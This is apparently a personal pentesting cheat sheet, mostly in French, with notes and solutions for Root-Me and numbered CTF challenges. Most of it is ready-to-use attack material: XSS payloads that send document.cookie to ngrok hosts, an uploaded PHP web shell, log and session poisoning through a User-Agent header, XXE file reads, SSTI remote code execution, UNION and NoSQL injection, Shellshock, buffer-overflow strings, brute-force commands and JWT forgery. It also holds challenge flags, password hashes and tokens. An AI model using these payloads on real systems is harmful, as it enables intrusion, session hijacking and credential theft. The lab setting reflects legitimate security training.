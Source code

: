# VPN

sudo openvpn "Azix.ovpn"

# command a faire en debut lors d'un bash
sudo -l 
ps -edf
cron

# website
https://gtfobins.github.io/gtfobins/cat/
https://crackstation.net/
https://addons.mozilla.org/fr/firefox/addon/hacktools/
https://www.wappalyzer.com/
https://www.shodan.io/
https://www.revshells.com/
https://gchq.github.io/CyberChef
https://ruuand.github.io/
https://book.hacktricks.xyz/welcome/readme

# tools

linepeas


# debug with gdb for buffer overflow
gdb ./file
run 
disas main

# where is the commande
type -a ls

#
/usr/bin/curl -o /var/www/html/index.html FILE

# SHELL SHOCK
SHELL SHOCK : MLL{pTOKNpU5A8SvXAyu72SKeF9xXXJcX5Vu1GCXsF5JC}
env x='() { :;};  /bin/bash ' ./mysudo
ps -edf --forest pour voir les éxecution



# hashcat
man crypt -> $6$Ud/SXrsJwyDdHKnx$KTuvLULplNcNycS/BN.JtpDEznAIZZXXhjdlxoiykVmmKXX.8MITmRhbg7Xm0UQv3PFbZhTD79m9vDiQR3kmH0
hashcat -m 1800 -a 0 -o crack.txt hash.txt 10k-most-common.txt


# path traversal
sudo -s 

sudo -l
sudo -U app-script-ch1 -l
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked/.passwd


# python buffer overflow
(python -c 'print "A"*40 + "\xef\xbe\xad\xde"'; cat) | ./ch13



little indian:\x16\x85\x04\x08

db ch15
run
disassemble shell
(python -c 'print "A"*128 + "\x16\x85\x04\x08"'; cat) | ./ch15




# python server

python3 -m http.server 80814 -> lance un server


# check files

strings file
cat -A file
hexdump -C file


# tcpdump
tcpdump -A -n -v -s 65536 'tcp port 80'


# decode base64
base64 -d /tmp/decode

# sqlmap
sqlmap -u https://training.mylittlelab.org/yip/index.php?name=fred --cookie "Cookie uid=ChGpAmMywzx5QQAaAwMEAg==" 

# xss
<img src="/" onerror=alert(document.cookie);>
<img src="/" onerror=document.getElementById("connectionStatus").innetHTML="<H2>Salut</H2>";>




# Cisco Password :

https://www.frameip.com/decrypter-dechiffrer-cracker-password-cisco-7/


# Dig DNS

cherche ip
nslookup challenge01.root-me.org

Transfert de zone :

dig axfr @212.129.38.224 ch11.challenge01.root-me.org -p 54011


# TTL 

La durée de vie du paquet (TTL, Time To Live). Le champ de durée de vie (TTL) 
permet de connaître le nombre de routeurs traversés par le paquet lors de l'échange entre les deux machines. 
Chaque paquet IP possède un champ TTL positionné à une valeur relativement grande.





# gobuster 

http://challenge01.root-me.org/web-client/ch27/#

gobuster dir -u http://challenge01.root-me.org/web-client/ch27/# -w  /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

`ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.241.171/FUZZ`

`dirb http://10.10.241.171/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`

`gobuster dir --url http://10.10.241.171/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt`




# wpscan:

wpscan --url http://10.10.161.116/wp-login.php -U Elliot -P /usr/share/wordlists/rockyou.txt


# Reverse shell 

https://www.revshells.com/

chercher un code qui permet de reverse shell



# spawn a shell with python

python -c 'import pty; pty.spawn("/bin/sh")'

# jonhthe ripper  -> mot de passe hasher

# hydra

hydra -l user -P passlist.txt ftp://10.10.18.61
hydra -l <username> -P <full path to pass> 10.10.18.61 -t 4 ssh
hydra -l <username> -P <wordlist> 10.10.18.61 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.18.61 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V



# ping of death


ping <ip address> -1 65500 -w 1 -n 1 -> windows
ping <ip address> -s 65500 -t 1 -n 1 -> linux 

# test 
nmap -sn 10.10.10.0/24
nmap -v 10.10.10.152

nmap -Pn 10.0.2.15

ssh -t lab-user@10.10.10.72 bash 
ssh lab-user@10.10.10.72 -t "bash --noprofile -i"
ssh lab-user@10.10.10.72 -t "() { :; }; sh -i "


ssh -t lab-user@10.10.10.72 -p 2022 bash 
ssh lab-user@10.10.10.72 -p 2022 -t "bash --noprofile -i"
ssh lab-user@10.10.10.72 -p 2022 -t "() { :; }; sh -i "

# get suid
cd / ;find . -perm /4000 2>/dev/null




# ngrok XSS

php -S localhost:5555

ngrok http 5555

https://42de-2a01-cb1c-821e-3200-9eb-28e4-96d3-c238.eu.ngrok.io

<script>document.location='https://54d9-2a01-cb1c-821e-3200-9eb-28e4-96d3-c238.eu.ngrok.io/grabber.php?c='+document.cookie</script>
NkI9qe4cdLIO2P7MIsWS8ofD6

# XSS Burp + ngrok


cookie -> invite"><script>window.location = "https://6a37-2a01-cb1c-821e-3200-9eb-28e4-96d3-c238.eu.ngrok.io/foo?cookie".concat(document.cookie)

# XSS DOM 

'-alert("yo")-'

'-document.location='https://62f4-193-52-13-247.eu.ngrok.io/grabber.php?c='+document.cookie-'

%27%2Ddocument%2Elocation%3D%27https%3A%2F%2F62f4%2D193%2D52%2D13%2D247%2Eeu%2Engrok%2Eio%2Fgrabber%2Ephp%3Fc%3D%27%2Bdocument%2Ecookie%2D%27%0A

%27;document.location.href=%22https://ca8d-2a01-cb1c-821e-3200-9eb-28e4-96d3-c238.eu.ngrok.io/?cookie=%22.concat(document.cookie);%27



http://chall1.mpgn.fr:4002/
# chall 1 

go buster sur 
http://chall1.mpgn.fr:4002/
http://chall1.mpgn.fr:4002/challenge/.git/HEAD


## git dumper: Quand ya un file en .git
/home/hugo/.local/bin/git-dumper http://chall1.mpgn.fr:4002/challenge/.git ./
ISEN{3num3r@t10n_1s_k3y}

### PHP Juggling type and magic hashes

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md
FLAG : ISEN{3num3r@t10n_1s_k3y}

root me:é"
(si on a un point git on peut regarder les logs git log)
et apres regarder la difference entre les commit : git diff 1572c85d624a10be0aa7b995289359cc4c0d53da a8673b295eca6a4fa820706d5f809f1a8b49fcba



# chall 2

# gobuster 
http://chall2.mpgn.fr/

on a /admin

## header 
password admin:admin

on a le header avec : 
Authorization: Basic YWRtaW46YWRtaW4=

### on scan 
http://chall2.mpgn.fr/admin

gobuster dir --url http://chall2.mpgn.fr/admin/ -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/common-and-french.txt -H 'Authorization: Basic YWRtaW46YWRtaW4='

#### on clique sur le button deconnéction avec burp on recupére avec proxy on l'envoye avec le repeater


SMTGB{8b14d682d5e27cdcf9e2648ea4551d4d}



# chall 3 

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp

strcmp()/strcasecmp()
If this function is used for any authentication check (like checking the password) and the user controls one side of the comparison, he can send an empty array instead of a string as the value of the password (https://example.com/login.php/?username=admin&password[]=) and bypass this check:
if (!strcmp("real_pwd","real_pwd")) { echo "Real Password"; } else { echo "No Real Password"; }
// Real Password
if (!strcmp(array(),"real_pwd")) { echo "Real Password"; } else { echo "No Real Password"; }
// Real Password
The same error occurs with strcasecmp()


http://chall3.mpgn.fr/index.php?username=admin&password[]=

password: SMTGB{b9e13d492514d3fcacb5b3aa48e0a064}


# rootme 

## PHP - Type juggling

username=0
password=[] 

DontForgetPHPL00seComp4r1s0n


## PHP - Loose Comparison

username :0e215962017
password :0e215962017


# chall 4

# get etc/password
http://chall4.mpgn.fr/index.php?p=../../../etc/passwd

# get my cookie
GET /index.php?p=/../../../../var/lib/php/sessions/sess_1859dmrgp6dvhmmupgnkipk3lt



GET /index.php?p=/../../../../var/lib/php/sessions/sess_idjeidiediej HTTP/1.1
Host: chall4.mpgn.fr
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: <?php system('cat ../../../home/tukix/random_name_for_h1dd3n_flag/flag_user.txt');?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chall4.mpgn.fr/index.php?p=login.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=idjeidiediej
Connection: close





SMTGB{d190636a247b878f757aaf0f01d02fd6}



# chall 5

# chercher robots.txt -> fichier dedans on fuzz pour voir 

gobuster fuzz -u http://chall5.mpgn.fr/index.php?view=FUZZ -w ./Downloads/brute.txt --exclude-length 428


# on trouve le fichier :
http://chall5.mpgn.fr/index.php?view=top-secret/sweetnut.txt

# on trouve le php
http://chall5.mpgn.fr/upload_easypz_666_tkx.php



POST /upload_easypz_666_tkx.php HTTP/1.1
Host: chall5.mpgn.fr
Content-Length: 343
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://chall5.mpgn.fr
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygtUisXDRe3AVKGlu
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chall5.mpgn.fr/upload_easypz_666_tkx.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=h0kj59m2pg6lhpa91n3sa8dq9i
Connection: close

------WebKitFormBoundarygtUisXDRe3AVKGlu
Content-Disposition: form-data; name="fileToUpload"; filename="payload.php.jpeg"
Content-Type: image/jpeg

<?php system('ls ../../../home/');?>
<?php system($_GET['cmd']);?>

------WebKitFormBoundarygtUisXDRe3AVKGlu
Content-Disposition: form-data; name="submit"

Upload Image
------WebKitFormBoundarygtUisXDRe3AVKGlu--s



GET /index.php?cmd=ls&view=./upload_dir_666/mypayload.php.jpeg HTTP/1.1
Host: chall5.mpgn.fr
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=3m0f17vvb8o3pdmifaur5nnkq9
Connection: close


# chall 6

# New Entity test
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY toreplace "3"> ]>
<stockCheck>
    <productId>&toreplace;</productId>
    <storeId>1</storeId>
</stockCheck>

# Read file
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM "/var/www/secret"> ]>
<data>&example;</data>




SMTGB{e55f661b8998c18f25380ac187afc89e}

# chall 7

POST /auth.php HTTP/1.1
Host: chall7.mpgn.fr
Content-Length: 138
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Content-Type: application/xml
Origin: http://chall7.mpgn.fr
Referer: http://chall7.mpgn.fr/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY example SYSTEM "/var/www/secret"> ]>
<credential><name>
&example;
</name>
</credential>


SMTGB{6ca3a0a470d2379463ac80bd26b53948}



# chall 8 


unzip sample.docx 

quand on rentre le fichier docx on nous dit try asdf been added on cherche dans les fichier ou s'est marqué alors on trouve dans le fichier core.xml

on ajoute la xxe

<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/var/www/secret"> ]>

<cp:coreProperties xmlns:cp="http://schemas.openxmlformats.org/package/2006/metadata/core-properties" xmlns:dc="http://purl.org/dc/elements/1.1/" xmlns:dcterms="http://purl.org/dc/terms/" xmlns:dcmitype="http://purl.org/dc/dcmitype/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><dc:title>&xxe;</dc:title><dc:subject></dc:subject><dc:creator></dc:creator><cp:keywords></cp:keywords><dc:description></dc:description><cp:lastModifiedBy></cp:lastModifiedBy><cp:revision>1</cp:revision><dcterms:created xsi:type="dcterms:W3CDTF">2015-08-01T19:00:00Z</dcterms:created><dcterms:modified xsi:type="dcterms:W3CDTF">2015-09-08T19:22:00Z</dcterms:modified></cp:coreProperties>


zip -r xxe.docx *

on upload le xxe.docx

Title 'SMTGB{0db9407f9c66ff3269e018b398d5e052} ' has been added.



# chall 9 :

https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection


{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}


# chall 10:

http://chall10.mpgn.fr/%7B%7B%20self.__init__.__globals__.__builtins__.__import__('os').popen('cat%20./flag/flag.txt').read()%20%7D%7D


# chall 11




POST /users/login HTTP/1.1
Host: chall11.mpgn.fr
Content-Length: 20
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://chall11.mpgn.fr
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chall11.mpgn.fr/users/login
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"name": {"$eq": "mpgn"}, "password": {"$ne": "bar"} }


# Local File Inclusion - Double encoding wrapper 

encoder url ci dessous :
php://filter/read=convert.base64-encode/resource=cv

on decode et retrouve le conf

on encode l'url ci dessous:
php://filter/read=convert.base64-encode/resource=conf


https://gchq.github.io/CyberChef/#recipe=URL_Encode(true)URL_Encode(true)&input=cGhwOi8vZmlsdGVyL3JlYWQ9Y29udmVydC5iYXNlNjQtZW5jb2RlL3Jlc291cmNlPWNvbmY

https://www.base64decode.org/

# chall 12 

## login 1 

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-union-based

admin';--

'UNION SELECT NULL,NULL,NULL,NULL,NULL -- -

'+UniOn+Select+1,version(),database()+AS+username,3,4--+


uid='+UniOn+Select+1,gRoUp_cOncaT(0x7c,schema_name,0x7c),database()+AS+username,3,4+fRoM+information_schema.schemata --+&password=cd

-----------> |mysql|,|information_schema|,|performance_schema|,|sys|,|sqlitraining|



uid='UniOn+Select+1,gRoUp_cOncaT(0x7c,table_name,0x7C),database()+AS+username,3,4+fRoM+information_schema.tables+wHeRe+table_schema='sqlitraining' --+&password=cd

-----------> |products|,|users|

uid='UniOn+Select+1,gRoUp_cOncaT(0x7c,column_name,0x7C),database()+AS+username,3,4+fRoM+information_schema.columns+wHeRe+table_name='users' --+&password=cd



# login 2

uid=d')+UniOn+Select+1,password,3,4,5+fRoM+users+wHeRe+username='frodo' --+&password=cd


Welcome f0f8820ee817181d9c6852a097d70d8d

# login 3

searchitem=%' +UniOn+Select+username,password,3,4,5+fRoM+users+where+username+like+'

%' UniOn Select 1,password,username,4,5 fRoM users where username like '


f0f8820ee817181d9c6852a097d70d8d	frodo
56eacb300613db3e0f6aaf821db223c0	frodo

# chall 13

Dockerfile
main.go 

mux server + go lang = path tarversal 

https://ilya.app/blog/servemux-and-path-traversal

-> on regarde dans le docker file le chemin du flag

curl -v -X CONNECT --path-as-is chall13.mpgn.fr:8080/../root/go-go-go-flag.txt

ISEN{G0-g0-p0w3r-R4ng3rs-!!!}

# chall 14

nginx path traversal


GET /f../flag.html HTTP/1.1
Host: chall14.mpgn.fr
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.78 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
If-None-Match: "6437e6f9-9"
If-Modified-Since: Thu, 13 Apr 2023 11:26:49 GMT
Connection: close


ISEN{n61nx_c4n_b3_y0ur_b357_fr13nd}



# sql map 

./sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch19/?action=recherche" --forms -T users --dbms=SQLite -D SQLite_masterdb --batch --dump --threads=2



# JWT chall rootme
 # ch1

https://jwt.io/

{
  "typ": "JWT",
  "alg": "none"
} -> encode base 64

{
  "username": "admin"
} -> encode 


WqVfIz70x8i6OjZNqNne9ylZTdPauV7-9RVka41B3b0



ewogICJ0eXAiOiAiSldUIiwKICAiYWxnIjogIm5vbmUiCn0K.eyJ1c2VybmFtZSI6ImFkbWluIn0.WqVfIz70x8i6OjZNqNne9ylZTdPauV7-9RVka41B3b0


Cookie: jwt=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6Imd1ZXN0In0.OnuZnYMdetcg7AWGV6WURn8CFSfas6AQej4V9M13nsk;


# ch2 
Mettre en POST
mettre content-type: 

Content-Type: application/json

{"username":"admin","password":"admin"}




Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpYXQiOjE2ODE4MDk4MjEsIm5iZiI6MTY4MTgwOTgyMSwianRpIjoiZGQ2MTY2NjQtODA1Yy00ZTJhLTg3YWEtYWRlMTE4MDdhYjBhIiwiZXhwIjoxNjgxODEwMDAxLCJpZGVudGl0eSI6ImFkbWluIiwiZnJlc2giOmZhbHNlLCJ0eXBlIjoiYWNjZXNzIn0.7-OzAHvXv1Gcj27vE7oze2QhLmblSDR2G2-bGQnjaA8=

on rajoute un = pour le padding de la base 64


# JWT brute force 

python3 jwt_tool.py eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzUxMiJ9.eyJyb2xlIjoiZ3Vlc3QifQ.4kBPNf7Y6BrtP-Y3A-vQXPY9jAh_d0E6L4IUjL65CvmEjgdTZyr2ag-TM-glH6EYKGgO3dBYbhblaPQsbeClcw -d /usr/share/wordlists/rockyou.txt -S hs512 -C